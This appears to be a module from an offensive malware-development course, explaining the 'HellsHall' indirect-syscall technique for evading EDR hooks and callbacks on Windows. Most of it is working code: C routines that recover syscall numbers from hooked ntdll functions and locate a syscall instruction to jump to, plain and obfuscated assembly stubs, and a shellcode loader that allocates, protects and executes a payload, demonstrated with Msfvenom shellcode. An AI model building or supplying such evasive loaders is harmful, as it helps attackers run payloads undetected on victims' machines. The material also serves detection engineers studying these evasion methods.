








Introduction
The Hell's Gate implementation was updated in the previous module to improve its ability to obtain the SSN of any hooked syscall. Unfortunately, the implementation still relied on direct syscalls where the syscall function is executed from within the address space of the local process rather than where it's supposed to be executed from, ntdll.dll. Direct syscalls can be detected by EDRs and other security solutions due to the use of callbacks that are triggered when the program flow is transferred between user and kernel mode or vice versa which is when the syscall is executed or returned. Recall that the syscall instruction in 64-bit assembly is used to switch the processor from user mode to kernel mode and initiate a system call.
For example, if a security solution uses NtSetProcessInformation with the ProcessInstrumentationCallback flag, it can set a callback function to be executed whenever the execution flow returns to user mode from the kernel. The triggered callback function can then analyze whether the syscall executed came from ntdll.dll's address space or not. More on detecting syscalls can be found here.
Essentially if the syscall instruction is executed directly from within an assembly file, it can be detected and flagged as suspicious, regardless of which syscall function was used, since the syscall instruction should only ever be executed from within ntdll.dll. To circumvent this, an indirect syscall technique must be used which requires jumping to an address of a syscall instruction located within ntdll.dll. When security solutions trigger the callback function they would see that the syscall instruction was being called from within ntdll.dll's address space and assume it's legitimate, although it was performed by the local program.
The following image illustrates how indirect syscalls are performed.

Finding a Syscall Address
The same code from the previous module will continue to be used, as the SSN of a specified syscall is still necessary to execute indirect syscalls. The only difference will be in the assembly functions, where the syscall instruction needs to be replaced with a jmp instruction. The jmp instruction will require an address to jump to, which as mentioned previously, will be located inside ntdll.dll and therefore the address must be first retrieved.
Any valid syscall instruction address can be used but it's preferred that the instruction belongs to a different syscall than the one being called. For example, if NtAllocateVirtualMemory is being called, it is better to jump to a syscall instruction address that does not belong to NtAllocateVirtualMemory in memory.
Therefore instead of jumping to NtAllocateVirtualMemory's syscall instruction address, 0x0007FF8308E3E82, instead jump to 0x0007FF8308E3EE2 which is the address of ZwWriteFileGather's syscall instruction.

Updating The NT_SYSCALL Structure
To do this, the newly introduced NT_SYSCALL structure will now contain a new member, pSyscallInstAddress. This member holds the address of a random syscall instruction in NTDLL.
typedef struct _NT_SYSCALL
{
DWORD dwSSn; // syscall number
DWORD dwSyscallHash; // syscall hash value
PVOID pSyscallAddress; // syscall address
PVOID pSyscallInstAddress; // address of a random 'syscall' instruction in ntdll
}NT_SYSCALL, * PNT_SYSCALL;Updating FetchNtSyscall
The next step is to modify the FetchNtSyscall function to search for the syscall instruction address. The updated code performs the following:
0xFF or 225 bytes (in decimal) to the address of the syscall function to search for a syscall instruction. The reason 225 bytes are added to the syscall function's address is to search for the syscall instruction in a random function that is 225 bytes away from the initial syscall. Keep in mind that the value of 225 is completely arbitrary and could be replaced with any other value.0x0f and 0x05 which represent the syscall instruction.RANGE which is 225, meaning that this for-loop can search 225 bytes for the syscall instruction.pSyscallInstAddress is set to the address of the retrieved syscall instruction.BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
// initialize ntdll config if not found
if (!g_NtdllConf.uModule) {
if (!InitNtdllConfigStructure())
return FALSE;
}
if (dwSysHash != NULL)
pNtSys->dwSyscallHash = dwSysHash;
else
return FALSE;
for (size_t i = 0; i < g_NtdllConf.dwNumberOfNames; i++) {
PCHAR pcFuncName = (PCHAR)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfNames[i]);
PVOID pFuncAddress = (PVOID)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfAddresses[g_NtdllConf.pwArrayOfOrdinals[i]]);
// if syscall found
if (HASH(pcFuncName) == dwSysHash) {
pNtSys->pSyscallAddress = pFuncAddress;
if (*((PBYTE)pFuncAddress) == 0x4C
&& *((PBYTE)pFuncAddress + 1) == 0x8B
&& *((PBYTE)pFuncAddress + 2) == 0xD1
&& *((PBYTE)pFuncAddress + 3) == 0xB8
&& *((PBYTE)pFuncAddress + 6) == 0x00
&& *((PBYTE)pFuncAddress + 7) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5);
BYTE low = *((PBYTE)pFuncAddress + 4);
pNtSys->dwSSn = (high << 8) | low;
break; // break for-loop [i]
}
// if hooked - scenario 1
if (*((PBYTE)pFuncAddress) == 0xE9) {
for (WORD idx = 1; idx <= RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // break for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // break for-loop [idx]
}
}
}
// if hooked - scenario 2
if (*((PBYTE)pFuncAddress + 3) == 0xE9) {
for (WORD idx = 1; idx <= RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // break for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // break for-loop [idx]
}
}
}
break; // break for-loop [i]
}
}
//-----------------------------------------------------------------------------------------------------------------------
// updated part //
if (!pNtSys->pSyscallAddress)
return FALSE;
// looking somewhere random (0xFF byte away from the syscall address)
ULONG_PTR uFuncAddress = (ULONG_PTR)pNtSys->pSyscallAddress + 0xFF;
// getting the 'syscall' instruction of another syscall function
for (DWORD z = 0, x = 1; z <= RANGE; z++, x++) {
if (*((PBYTE)uFuncAddress + z) == 0x0F && *((PBYTE)uFuncAddress + x) == 0x05) {
pNtSys->pSyscallInstAddress = ((ULONG_PTR)uFuncAddress + z);
break; // break for-loop [x & z]
}
}
//-----------------------------------------------------------------------------------------------------------------------
if (pNtSys->dwSSn != NULL && pNtSys->pSyscallAddress != NULL && pNtSys->dwSyscallHash != NULL && pNtSys->pSyscallInstAddress != NULL)
return TRUE;
else
return FALSE;
}Updating SetSSn And RunSyscall
Recall the updated assembly functions in the previous module, SetSSn and RunSyscall. Both functions were used to initiate a syscall in the updated Hell's Gate implementation.
Previously, SetSSn only required the SSN of the syscall to be called and then used RunSyscall to execute it. Now, SetSSn requires another value, qSyscallInsAdress, which is the address of the syscall instruction to jump to. After SetSSn initializes these values, RunSyscall will execute them.
Unobfuscated Assembly Functions
SetSSN & RunSyscall without unnecessary assembly instructions.
.data
wSystemCall DWORD 0h
qSyscallInsAdress QWORD 0h
.code
SetSSn PROC
mov wSystemCall, 0h
mov qSyscallInsAdress, 0h
mov wSystemCall, ecx ; saving the ssn value to wSystemCall
mov qSyscallInsAdress, rdx ; saving the syscall instruction address to qSyscallInsAdress
ret
SetSSn ENDP
RunSyscall PROC
mov r10, rcx
mov eax, wSystemCall
jmp qword ptr [qSyscallInsAdress] ; jumping to qSyscallInsAdress instead of calling 'syscall'
ret
RunSyscall ENDP
endObfuscated Assembly Functions
SetSSN & RunSyscall with added assembly instructions.
.data
wSystemCall DWORD 0h
qSyscallInsAdress QWORD 0h
.code
SetSSn proc
xor eax, eax ; eax = 0
mov wSystemCall, eax ; wSystemCall = 0
mov qSyscallInsAdress, rax ; qSyscallInsAdress = 0
mov eax, ecx ; eax = ssn
mov wSystemCall, eax ; wSystemCall = eax = ssn
mov r8, rdx ; r8 = AddressOfASyscallInst
mov qSyscallInsAdress, r8 ; qSyscallInsAdress = r8 = AddressOfASyscallInst
ret
SetSSn endp
RunSyscall proc
xor r10, r10 ; r10 = 0
mov rax, rcx ; rax = rcx
mov r10, rax ; r10 = rax = rcx
mov eax, wSystemCall ; eax = ssn
jmp Run ; execute 'Run'
xor eax, eax ; wont run
xor rcx, rcx ; wont run
shl r10, 2 ; wont run
Run:
jmp qword ptr [qSyscallInsAdress] ; jumping to the 'syscall' instruction
xor r10, r10 ; r10 = 0
mov qSyscallInsAdress, r10 ; qSyscallInsAdress = 0
ret
RunSyscall endp
endCreating a Helper Macro
As mentioned, the SetSSn function now requires two parameters from the initialized NT_SYSCALL structure, which are NT_SYSCALL.dwSSn and NT_SYSCALL.pSyscallInstAddress. To invoke the SetSSn function more easily, the SET_SYSCALL macro is created and shown below.
#define SET_SYSCALL(NtSys)(SetSSn((DWORD)NtSys.dwSSn,(PVOID)NtSys.pSyscallInstAddress))SET_SYSCALL takes an NT_SYSCALL structure and calls the SetSSn function, making the code neater. For example, the following snippets show SetSSn being called directly versus when using the SET_SYSCALL macro.
Direct SetSSn Call
NT_SYSCALL NtAllocateVirtualMemory = { 0 };
FetchNtSyscall(NtAllocateVirtualMemory_Hash, &NtAllocateVirtualMemory);
SetSSn(NtAllocateVirtualMemory.dwSSn, NtAllocateVirtualMemory.pSyscallInstAddress);
RunSyscall(/* NtAllocateVirtualMemory's parameters */);Using SET_SYSCALL
NT_SYSCALL NtAllocateVirtualMemory = { 0 };
FetchNtSyscall(NtAllocateVirtualMemory_Hash, &NtAllocateVirtualMemory);
SET_SYSCALL(NtAllocateVirtualMemory);
RunSyscall(/* NtAllocateVirtualMemory's parameters */);Updating Main Function
Initializing The NTAPI_FUNC Structure
Similarly to the previous module, all the invoked syscalls will be saved in a global NTAPI_FUNC structure.
typedef struct _NTAPI_FUNC
{
NT_SYSCALL NtAllocateVirtualMemory;
NT_SYSCALL NtProtectVirtualMemory;
NT_SYSCALL NtCreateThreadEx;
NT_SYSCALL NtWaitForSingleObject;
}NTAPI_FUNC, *PNTAPI_FUNC;
// global variable
NTAPI_FUNC g_Nt = { 0 };Creating InitializeNtSyscalls
To populate the g_Nt global variable, the newly created function, InitializeNtSyscalls, will call FetchNtSyscall to initialize all members of NTAPI_FUNC.
BOOL InitializeNtSyscalls() {
if (!FetchNtSyscall(NtAllocateVirtualMemory_CRC32, &g_Nt.NtAllocateVirtualMemory)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtAllocateVirtualMemory \n");
return FALSE;
}
printf("[+] Syscall Number Of NtAllocateVirtualMemory Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtAllocateVirtualMemory.dwSSn, g_Nt.NtAllocateVirtualMemory.pSyscallInstAddress);
if (!FetchNtSyscall(NtProtectVirtualMemory_CRC32, &g_Nt.NtProtectVirtualMemory)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtProtectVirtualMemory \n");
return FALSE;
}
printf("[+] Syscall Number Of NtProtectVirtualMemory Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtProtectVirtualMemory.dwSSn, g_Nt.NtProtectVirtualMemory.pSyscallInstAddress);
if (!FetchNtSyscall(NtCreateThreadEx_CRC32, &g_Nt.NtCreateThreadEx)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtCreateThreadEx \n");
return FALSE;
}
printf("[+] Syscall Number Of NtCreateThreadEx Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtCreateThreadEx.dwSSn, g_Nt.NtCreateThreadEx.pSyscallInstAddress);
if (!FetchNtSyscall(NtWaitForSingleObject_CRC32, &g_Nt.NtWaitForSingleObject)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtWaitForSingleObject \n");
return FALSE;
}
printf("[+] Syscall Number Of NtWaitForSingleObject Is : 0x%0.2X \n\t\t>> Executing 'syscall' instruction Of Address : 0x%p\n", g_Nt.NtWaitForSingleObject.dwSSn, g_Nt.NtWaitForSingleObject.pSyscallInstAddress);
return TRUE;
}Main Function
int main() {
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
SIZE_T sSize = sizeof(Payload);
DWORD dwOld = NULL;
HANDLE hProcess = (HANDLE)-1, // local process
hThread = NULL;
// initializing the used syscalls
if (!InitializeNtSyscalls()) {
printf("[!] Failed To Initialize The Specified Indirect-Syscalls \n");
return -1;
}
// allocating memory
SET_SYSCALL(g_Nt.NtAllocateVirtualMemory);
if ((STATUS = RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x00 || pAddress == NULL) {
printf("[!] NtAllocateVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
// copying the payload
memcpy(pAddress, Payload, sizeof(Payload));
sSize = sizeof(Payload);
// changing memory protection
SET_SYSCALL(g_Nt.NtProtectVirtualMemory);
if ((STATUS = RunSyscall(hProcess, &pAddress, &sSize, PAGE_EXECUTE_READ, &dwOld)) != 0x00) {
printf("[!] NtProtectVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
return -1;
}
// executing the payload
SET_SYSCALL(g_Nt.NtCreateThreadEx);
if ((STATUS = RunSyscall(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x00) {
printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X\n", STATUS);
return -1;
}
// waiting for the payload
SET_SYSCALL(g_Nt.NtWaitForSingleObject);
if ((STATUS = RunSyscall(hThread, FALSE, NULL)) != 0x00) {
printf("[!] NtWaitForSingleObject Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Demo

• NtAllocateVirtualMemory is using NtReleaseMutant's syscall instruction which is at address 0x00007FF8308E3F82. A breakpoint is placed at this address, in order to track code execution.

NtProtectVirtualMemory is using NtReleaseMutant's syscall instruction which is at address 0x00007FF8308E4682. Again, a breakpoint is placed at this address, in order to track code execution.

• Executing NtAllocateVirtualMemory triggers the breakpoint and shows that the syscall instruction is executed from within ntdll.dll.

• Executing NtProtectVirtualMemory triggers the breakpoint and shows that the syscall instruction is executed from within ntdll.dll.

• Finally, the payload executes the Msfvenom shellcode.

Conclusion
The best approach is to use the implementation of HellsHall in order to evade detection due to direct syscalls being detected with security solutions. To further enhance evasion capabilities, it is recommended to unhook ntdll.dll using HellsHall, as this will ensure that payloads that trigger hooked functions can run unhooked.
Note that a public version of HellsHall exists on GitHub but lacks several features. The one explained in this module contains far more features.